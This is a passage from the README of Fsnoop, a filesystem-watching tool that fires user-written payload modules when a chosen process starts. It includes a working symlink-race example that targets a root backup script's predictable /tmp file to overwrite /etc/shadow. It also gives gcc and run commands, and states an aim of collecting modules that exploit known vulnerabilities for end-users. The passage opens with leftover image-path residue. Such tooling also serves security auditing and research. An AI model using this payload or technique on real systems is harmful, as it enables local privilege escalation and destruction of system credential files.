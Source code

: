     int count = 2;

For possibility #2, filter specifies a process name.  Once this process
is active on the system, payload() is launched.  Use the variable
``proc_name`` to specify this process name:

    char proc_name[] = "/bin/bash /root/bin/backup.sh";

The string must be exactly the same as what the command "``ps -eo args=``"
would output.

Why launching the payload() when a process starts?  Well, for example, to
predict a filename based on a process ID.

If you set the ``proc_name`` variable AND specify a file with the "``HEREPID``"
string in its name, this string is substituted by the process ID of the
program.  Thus, in certain condition, you may be able to create a
file/symlink based on the PID before the real program does.

Suppose root runs a backup.sh script that creates "``/tmp/backup.$$``" in
an insecure manner.  The following paymod will allow you to create a
symlink and overwrite the "``/etc/shadow``" system file:

    /* filter */
    char proc_name[] = "/bin/bash /root/bin/backup.sh";
    char file[] = "/tmp/backup.HEREPID";

    void payload() { symlink("/etc/shadow", file); }    

Once your Fsnoop module is ready, compile it with:

    $ gcc -w -fPIC -shared -o your-module.so your-module.c

or simply:

    $ make your-module.so

and use it with:

    $ ./fsnoop -p ./your-module.so

Some payload modules, examples and templates are available in the
dedicated repository available at:

    http://vladz.devzero.fr/svn/projects/fsnoop/paymods/

Remember that this is a new feature and that it should be improved.  In
the short term, the aim is to feed this repository with paymods that
exploits known vulnerabilities (contributions are welcomed).  And at the
long term, the idea is to have an option in Fnoop that loads all them so
the end-users will only have to wait for Fsnoop to exploit.

## Thanks

To Larry Cashdollar (``@_larry0``) for testing the tool and bringing new ideas.
